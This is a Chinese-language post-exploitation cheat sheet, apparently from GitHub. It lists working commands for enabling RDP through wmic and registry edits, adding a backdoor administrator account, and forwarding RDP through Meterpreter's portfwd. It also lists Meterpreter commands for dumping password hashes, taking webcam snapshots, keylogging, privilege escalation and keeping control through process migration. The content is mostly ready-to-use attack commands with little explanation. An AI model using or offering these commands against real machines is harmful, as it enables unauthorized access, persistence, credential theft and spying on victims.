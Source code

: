 # **后渗透攻击**

1. 开3389端口

   - ```
     wmic /namespace:\root\cimv2\terminalservices path 
     win32_terminalservicesetting where (__CLASS != “”) call 
     setallowtsconnections 1
     ```

   - ```
     wmic /namespace:\root\cimv2\terminalservices path 
     win32_tsgeneralsetting where (TerminalName =’RDP-Tcp’) call 
     setuserauthenticationrequired 1
     ```

   - ```
     reg add “HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
     ```


   针对win XP及win2003只需要第3条命令
   针对win 7需要第1，2条命令
   针对win 2012需要3条命令

2. 添加账户进管理组

   ```
   net user [username] [password] /add
   net localgroup Administrators [username] /add

   ```

3. 端口转发如果3389端口只限内网访问，可以使用portfwd将端口转发到本地连接

   ```
   portfwd add -l 4444 -p 3389 -r XXX.XXX.XXX.XXX
   rdesktop -u root -p toor 127.0.0.1:4444

   ```

4. meterpreter自带的多功能shell

   - hashdump:获取用户密码哈希值，可以用ophcrack等彩虹表工具进行破解明文
   - screenshot:获取屏幕截图
   - webcam_snap:调取对方摄像头拍照
   - keyscan_start,keyscan_dump:记录键盘动作
   - ps:查看当前运行进程
   - sysinfo:查看系统信息
   - getsystem:提权

5. 维持控制

   - migrate:将meterpreter会话移至另一个进程内存空间（migrate pid）配合ps使用

   - irb:与ruby终端交互，调用meterpreter封装函数，可以添加Railgun组件直接交互本地的Windows API,阻止目标主机进入睡眠状态
